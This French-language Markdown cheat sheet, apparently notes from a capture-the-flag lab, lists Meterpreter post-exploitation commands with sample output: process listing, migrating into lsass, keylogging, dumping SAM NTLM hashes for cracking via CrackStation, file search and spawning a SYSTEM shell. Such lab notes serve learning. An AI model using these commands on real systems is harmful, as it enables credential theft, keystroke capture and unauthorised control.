 
Une fois qu'on a pu acceder à la machine ciblé meterpreter nous offre beaucoup de commande.

## __Help__

Pour avoir la **liste des commandes** accessibles.

```shell
meterpreter > help

Core Commands 
============= 

	Command           Description
	-------           -----------
	?                 Help menu 
	background        Backgrounds the current session 
	bg                Alias for background
	bgkill            Kills a background meterpreter script 
	bglist            Lists running background scripts
	bgrun             Executes a meterpreter script as a background thread
	channel           Displays information or control active channels
	close             Closes a channel[...]
```


## __Getuid__

Pour récupérer le **nom de l'utilisateur actuel**.

```shell
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```


## __Ps__

Pour **lister tous les processus en cours**.

```shell
meterpreter > ps 

Process List 
============ 

PID   PPID  Name              Arch Session User                           Path
---   ----  ----              ---- ------- ----                           ---- 
0     0     [System Process]
4     0     System            x64   0 
396   644   LogonUI.exe       x64   1      NT AUTHORITY\SYSTEM            C:\Windows\system32\LogonUI.exe 
416   4     smss.exe          x64   0      NT AUTHORITY\SYSTEM            \SystemRoot\System32\smss.exe 
428   692   svchost.exe       x64   0      NT AUTHORITY\SYSTEM 
548   540   csrss.exe         x64   0      NT AUTHORITY\SYSTEM            C:\Windows\system32\csrss.exe 
596   540   wininit.exe       x64   0      NT AUTHORITY\SYSTEM            C:\Windows\system32\wininit.exe
604   588   csrss.exe         x64   1      NT AUTHORITY\SYSTEM            C:\Windows\system32\csrss.exe
644   588   winlogon.exe      x64   1      NT AUTHORITY\SYSTEM            C:\Windows\system32\winlogon.exe 
692   596   services.exe      x64   0      NT AUTHORITY\SYSTEM            C:\Windows\system32\services.exe
700   692   sppsvc.exe        x64   0      NT AUTHORITY\NETWORK SERVICE 
716   596   lsass.exe         x64   0      NT AUTHORITY\SYSTEM            C:\Windows\system32\lsass.exe
724   596   lsm.exe           x64   0      NT AUTHORITY\SYSTEM            C:\Windows\system32\lsm.exe 
764   692   svchost.exe       x64   0      NT AUTHORITY\SYSTEM  
828   692   svchost.exe       x64   0      NT AUTHORITY\SYSTEM 
864   828   WmiPrvSE.exe   
900   692   svchost.exe       x64   0      NT AUTHORITY\NETWORK SERVICE 
952   692   svchost.exe       x64   0      NT AUTHORITY\LOCAL SERVICE 
1076  692   svchost.exe       x64   0      NT AUTHORITY\LOCAL SERVICE 
1164  548   conhost.exe       x64   0      NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
1168  692   svchost.exe       x64   0      NT AUTHORITY\NETWORK SERVICE
1244  548   conhost.exe       x64   0      NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
1276  1304  cmd.exe           x64   0      NT AUTHORITY\SYSTEM           C:\Windows\system32\cmd.exe 
1304  692   spoolsv.exe       x64   0      NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
1340  692   svchost.exe       x64   0      NT AUTHORITY\LOCAL SERVICE 
1388  548   conhost.exe       x64   0      NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe[...]
```


## __Migrate__

On peut **migrer meterpreter vers un autre processus** pour **mieux interagir** avec. Par exemple si on voit un logiciel de traitement de texte comme word.exe ou notepad.exe, on peut capturer les entrées clavier avec `keyscan_start`, `keyscan_stop` et `keyscan_dump`.

```shell
meterpreter > migrate 716
[*] Migrating from 1304 to 716...
[*] Migration completed successfully. 
meterpreter >
```


## __Hashdump__

Pour **récupérer les mots de passes de la db SAM** (Security Account Manager), ils sont stocké au format NTLM (New Technology LAN Manager).  On peut les déchiffrer grâce à des db comme [CrackStation](https://crackstation.net/).

```shell
meterpreter > hashdump 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d::: 
meterpreter >
```


## __Search__

Permet de **trouver un fichier** dans le disque.

```shell
meterpreter > search -f flag2.txt
Found 1 result...
	c:\Windows\System32\config\flag2.txt (34 bytes)
meterpreter >
```


## __Shell__

Pour avoir un **terminal classique** de commande.

```shell
meterpreter > shell 
Process 2124 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601] 
Copyright (c) 2009 Microsoft Corporation. All rights reserved. 

C:\Windows\system32>
```


## __Commande utile__

### Commande Principale

| Commande     | Description                                       |
| ------------ | ------------------------------------------------- |
| `background` | Arrière-plan de la session en cours               |
| `exit`       | Terminer la session Meterpreter                   |
| `guid`       | Get the session GUID (Globally Unique Identifier) |
| `help`       | Displays the help menu                            |
| `info`       | Displays information about a Post module                                                  |
